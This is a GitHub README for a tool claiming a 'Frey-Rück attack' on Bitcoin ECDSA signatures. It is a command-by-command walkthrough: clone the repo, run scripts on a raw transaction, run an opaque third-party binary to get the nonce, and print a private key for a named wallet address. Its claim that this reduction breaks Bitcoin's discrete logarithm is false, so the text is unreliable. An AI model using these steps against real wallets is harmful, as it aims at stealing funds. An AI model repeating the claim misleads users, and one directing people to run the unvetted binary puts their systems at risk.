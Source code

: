 # Frey-Rück Attack

---

With a critical vulnerability in the Bitcoin blockchain transaction, we can solve the rather difficult discrete logarithm problem to extract the secret key "K" (NONCE) from the vulnerable ECDSA signature in order to ultimately restore the Bitcoin Wallet, since knowing the secret key we can get a private key. To do this, there are several algorithms from the list of popular attacks on Bitcoin, one of which is the “Frey-Rück Attack on Bitcoin”.



---

* Tutorial: https://youtu.be/wqHES7r1qyc
* Tutorial: https://cryptodeep.ru/frey-ruck-attack

---

# Commands:





    git clone https://github.com/demining/CryptoDeepTools.git


    cd CryptoDeepTools/14FreyRuckAttack/

    ls

    wget https://bootstrap.pypa.io/pip/2.7/get-pip.py

    sudo python2 get-pip.py

    pip2 install -r requirements.txt


---


## With a critical vulnerability, we can get the private key to the Bitcoin Wallet:


https://btc.exan.tech/address/16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG

https://btc.exan.tech/tx/a575ef45375f85d6d3c010dae01df1479e2e0c5b870b80ee757fc2522057db72


---



    RawTX = 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000


    python2 breakECDSA.py 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000


---


R = 0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff
S = 0x649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1
Z = 0xb8e936d143c8733bb1ede19146f8725fee1d10bfc19e14452a51cef0cb0014d8


---

# To implement the attack and get the secret key, we will use the software: “ATTACKSAFE SOFTWARE” [ https://attacksafe.ru/software ]


---

    chmod +x attacksafe


---

    ./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt


---



## We launched this attack from -tool frey_ruck_attack and the result is saved to the file SecretKey.txt


    cat SecretKey.txt


    Deployments ECDSA:

    SecretKey = 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3


    RawTX = 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000


---


## We see the inscription "Deployments ECDSA" which means a critical vulnerability in the Bitcoin blockchain transaction

SecretKey value in HEX format, this is our secret key "K" (NONCE):

K=0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3


---


    pip3 install ECPy


    python3 point2gen.py 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3



    R          =       0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff
    point2gen  =   (0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff , 0x92718ef50eb3f5eb155a244e371194fb5086e58f1d174e88cda0a60a2ed899f7)


---


# ALL CORRECT!


K=0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3

## Now knowing the secret key, we can get the private key to the Bitcoin Wallet: 16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG


The script: calculate.py will calculate the private key using the formula:
Privkey = ((((S * K) - Z) * modinv(R,N)) % N)


---


    python3 calculate.py


---


## PrivKey = 4faa01f7409813181fb5ae8d352796b791cd9df4ba0650df7008f5d9d6be8766



---


---

* Tutorial: https://youtu.be/r0fTtBDWTnw
* Tutorial: https://cryptodeep.ru/tesla-brainwallet

---


|  | Donation Address |
| --- | --- |
| ♥ __BTC__ | 1Lw2kh9WzCActXSGHxyypGLkqQZfxDpw8v |
| ♥ __ETH__ | 0xaBd66CF90898517573f19184b3297d651f7b90bf |
